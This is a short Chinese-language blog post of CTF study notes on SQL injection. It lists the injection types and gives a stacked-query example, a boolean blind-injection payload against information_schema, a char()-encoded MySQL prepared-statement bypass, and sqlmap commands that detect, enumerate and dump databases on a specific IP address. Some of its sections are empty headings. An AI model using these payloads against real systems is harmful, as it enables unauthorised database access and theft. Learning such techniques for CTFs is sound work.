 ```yaml
---
title: CTF中的SQL Injection知识点
date: 2022-12-31 14:25:39
keywords: ctf, sql injection
description: 本文总结了一些CTF中SQL注入的知识点。
---
```


数据库注入针对 Mysql、Oracle、Access、MSSql 都有不同的场景，比较常见的还是 Mysql 。

## 注入原理



## 基本类型

判断是整型注入还是字符型注入。

注入的基本类型

* 盲注，是在服务端没有错误回显的情况下注入
  * 布尔盲注
  * 时间盲注

* 显错注入
  * 联合注入，主要使用 union 关键字
  * 堆叠注入

* 报错注入

### 堆叠注入

堆叠注入就是多条语句一起执行，在 SQL 语法中，使用 `;` 分割多条语句，发现注入点后，通过构造多条语句同时执行。

```sql
GET /sqli/?id=1' ; select * from tables;
```

## 注入绕过



and ascii(substr((select column_name from information_schema.columns where table_name=‘users’ and table_schema=‘security’ limit 0,1),1,1))<106%23




## Mysql 预处理

```sql
1';SET@sql=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");PREPARE sqla from @sql;EXECUTE sqla;#
```

## Sqlmap

```sh
# 探测是否有漏洞
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --level 2 --time-sec=10
# 查看当前数据库
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --current-db
# 查看数据库表
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber --tables
# 查看表内容
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber -T cyber --dump

# 利用 POST 参数进行探测, search 为参数
$ sqlmap -u http://223.112.5.156:53583/ --data=search=1  --current-db
```

Sqlmap 的 tamper 脚本提供了一些绕过注入的方法。

Sqlmap 也支持盲注，通过添加 `--technique B` 参数可以对盲注场景进行注入。 

## 工具

* sqlmap



## 参考资料

1. [Sqlmap 命令大全](https://blog.csdn.net/phpppppppppp/article/details/124968358)
2. [Sqlmap 使用详解](https://blog.csdn.net/qq_43531669/article/details/113835025)
3. [SQL注入](https://www.cnblogs.com/yo1o/p/16079907.html)
4. [](https://www.freesion.com/article/43631100690/)
5. [盲注](https://blog.csdn.net/weixin_45634365/article/details/114190376)
